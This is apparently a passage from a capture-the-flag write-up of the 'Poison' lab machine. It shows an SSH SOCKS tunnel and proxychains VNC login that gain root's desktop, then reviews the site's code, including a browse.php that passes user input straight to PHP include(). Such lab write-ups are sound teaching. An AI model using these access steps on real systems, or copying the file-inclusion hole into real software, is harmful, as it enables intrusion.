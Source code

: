     root@kali# ssh charix@10.10.10.84 -D 8081
    
    
    
    root@kali# proxychains vncviewer 127.0.0.1:5901 -passwd secret
    ProxyChains-3.1 (http://proxychains.sf.net)
    |S-chain|-<>-127.0.0.1:8081-<><>-127.0.0.1:5901-<><>-OK
    Connected to RFB server, using protocol version 3.8
    Enabling TightVNC protocol extensions
    Performing standard VNC authentication
    Authentication successful
    Desktop name "root's X desktop (Poison:1)"
    VNC server default format:
      32 bits per pixel.
      Least significant byte first in each pixel.
      True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
    Using default colormap which is TrueColor.  Pixel format:
      32 bits per pixel.
      Least significant byte first in each pixel.
      True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
    Same machine: preferring raw encoding
    

![](https://0xdfimages.gitlab.io/img/poison_vnc-root.png)

## Poison Configuration Details

With full access to the box, it’s always good to see what’s actually there,
and if things were set up as we pictured them as we worked through it.

### Website

`index.php` is a simple form that GETs to `browse.php`:

    
    
    <html>
    <body>
    <h1>Temporary website to test local .php scripts.</h1>
    Sites to be tested: ini.php, info.php, listfiles.php, phpinfo.php
    
    </body>
    </html>
    
    <form action="/browse.php" method="GET">
            Scriptname: <input type="text" name="file"><br>
            <input type="submit" value="Submit">
    </form>
    

`browse.php` is basically a web file display:

    
    
    <?php
    include($_GET['file']);
    ?>
    